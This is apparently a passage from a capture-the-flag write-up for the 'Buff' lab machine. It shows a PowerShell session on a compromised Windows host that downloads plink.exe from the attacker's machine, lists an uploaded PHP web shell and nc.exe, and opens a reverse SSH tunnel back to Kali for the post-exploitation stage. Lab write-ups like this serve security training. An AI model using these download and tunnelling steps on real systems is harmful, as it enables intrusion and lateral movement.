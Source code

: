```bash
kali@kali:~/Desktop/tools/autorecon/results/buff.htb/scans$
```

First we need to create a tunnel from the windows machine to the our `kali` machine so that we can interact with the `cloudme` service. This can be accomplished using `plink.exe` from `putty`.

1. Copy the `plink.exe` binary.
2. Start `ssh` on our system.
3. connect the windows machine port to our system.

```bash
C:\xampp\htdocs\gym\upload>powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

iPS C:\xampp\htdocs\gym\upload>invoke-webrequest -uri http://10.10.14.5:8000/plink.exe -outfile plink.exe
invoke-webrequest -uri http://10.10.14.5:8000/plink.exe -outfile plink.exe
PS C:\xampp\htdocs\gym\upload> dir
dir


    Directory: C:\xampp\htdocs\gym\upload


Mode                LastWriteTime         Length Name                                                                
----                -------------         ------ ----                                                                
-a----       02/08/2020     06:43             53 kamehameha.php                                                      
-a----       02/08/2020     06:44          45272 nc.exe                                                              
-a----       02/08/2020     06:48         675752 plink.exe                                                           


PS C:\xampp\htdocs\gym\upload> ./plink.exe kali@10.10.14.5 -R 8888:127.0.0.1:8888
./plink.exe kali@10.10.14.5 -R 8888:127.0.0.1:8888
The server's host key is not cached in the registry. You
have no guarantee that the server is the computer you
think it is.
The server's ssh-ed25519 key fingerprint is:
ssh-ed25519 255 23:c1:0b:a2:67:12:09:91:ae:57:d3:bf:0b:ab:04:68
If you trust this host, enter "y" to add the key to
PuTTY's cache and carry on connecting.
If you want to carry on connecting just once, without
adding the key to the cache, enter "n".
If you do not trust this host, press Return to abandon the
connection.
Store key in cache? (y/n) y
Using username "kali".
kali@10.10.14.5's password: **********

Linux kali 5.4.0-kali3-amd64 #1 SMP Debian 5.4.13-1kali1 (2020-01-20) x86_64

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program a
re described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
```